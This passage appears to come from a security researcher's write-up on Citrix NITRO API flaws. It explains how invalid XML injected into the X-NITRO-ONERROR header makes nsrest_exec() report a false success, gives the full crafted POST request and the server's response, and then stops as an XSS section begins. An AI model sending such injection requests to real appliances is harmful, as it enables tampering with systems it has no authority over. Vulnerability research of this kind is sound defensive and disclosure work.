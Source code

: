 The `nsrest_exec()` function is a custom PHP function shipped by Citrix in a library file called `libphp7.so`. This function either returns an XML object upon succesful execution, or `FALSE` if it fails. Somewhere along the line `FALSE` turns to `NULL` and `NULL` turns to `0`. I don't know the exact inner workins of `nsrest_exec` but long story short: invalid XML in `X-NITRO-ONERROR` means a response that indicates all is well.

For example, this request containing invalid XML:
```http
POST /nitro/v1/config/server HTTP/1.1
Host: citrix.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/xml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://citrix.local/menu/neo
Content-Type: application/xml
If-Modified-Since: Thu, 01 Jan 1970 05:30:00 GMT
DNT: 1
Connection: close
Content-Length: 17
X-NITRO-ONERROR: exit</onerror><idempotent>yes</idempotent><format>xml</format><rawdata>yes</rawdata></params><server></server><params><onerror

<server></server>
```

Will return this response:
```http
HTTP/1.1 201 Created
Date: Tue, 28 Jan 2020 10:52:07 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Set-Cookie: SESSID=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-XSS-Protection: 1; mode=block
Content-Length: 126
Connection: close
Content-Type: application/xml; charset=utf-8

<?xml version="1.0"?>
<nitroResponse><errorcode>0</errorcode><message>Done</message><severity>NONE</severity></nitroResponse>
```

Indicating that everything is okay, and that authentication passed. In reality nothing actually happened, but other functions using the errorcode to validate if an API call succeeded will falsely assume success. Haven't found anything good to use this for though. Oh well, that's life. Moving on!

### XSS
I don't think I need to spend a lot of time on explaining to you what XSS is. So here is the request:
